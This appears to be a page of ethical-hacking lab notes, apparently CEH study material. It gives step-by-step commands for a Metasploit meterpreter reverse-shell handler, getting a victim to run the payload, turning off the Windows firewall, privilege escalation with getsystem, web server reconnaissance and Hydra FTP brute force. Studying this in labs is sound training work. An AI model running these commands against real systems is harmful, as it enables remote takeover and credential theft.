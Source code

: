 
**Listener Setup**

- Type ***use exploit/multi/handler***.
- Type ***set payload windows/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit -j -z*** |exploit -j -z exploit tells Metasploit to start the exploit. The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.


**Execute Exploit**

- Open <http://10.10.10.11/share> on victim machine. Download Payload and run.
- Type ***sessions -i*** to view sessions 
- Type ***sessions -i 1*** to interact with the session created 
- Type ***execute -f cmd.exe -c -H*** | creates a channel to execute the victim command shell
- Now Type ***shell*** | opens an interactive shell (cmd)
- Type ***netsh firewall show opmode*** | to shown firewall stats
- Type ***netsh advfirewall set allprofiles state off*** | to turn off firewall.
- Type ***getsystem*** 
- Type **ps** | processes



                                                                      *HACKING WEB SERVERS*


**Skipfish – Webserver Reconnaissance** 

***skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12:8080*** | -o path to store output, -S read only word list


**httprecon Tool – Webserver Foot printing**

- Open tool on Windows
- Enter IP and Port
- Click Analyze


**ID Server - Webserver Foot printing**

- ID Serve determines the domain name associated with an IP address.
- Click the **Server Query** tab. In option 1, enter the URL (<http://10.10.10.12:8080/CEH>)
- Click **Query the Server**


**HYDRA – FTP Brute force**

- ***hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://[IP Address of Windows 10]*** | -L username wordlist -P password wordlist, -t 4 option sometimes 16 threads result in no results
- Use ***mkdir*** command to make a directory and view on remote system for proof


**Uniscan - WebServer Fingerprinting (Kali)**

- Use ***uniscan -h***  | for usage techniques
- ***uniscan -u http://10.10.10.12:8080/CEH -qwed*** | -u url scan . -q directory check, - w file check, -e robots.txt and sitemap.xml check, -d for dynamic checks
- To view report, go to **/usr/share/uniscan/report**
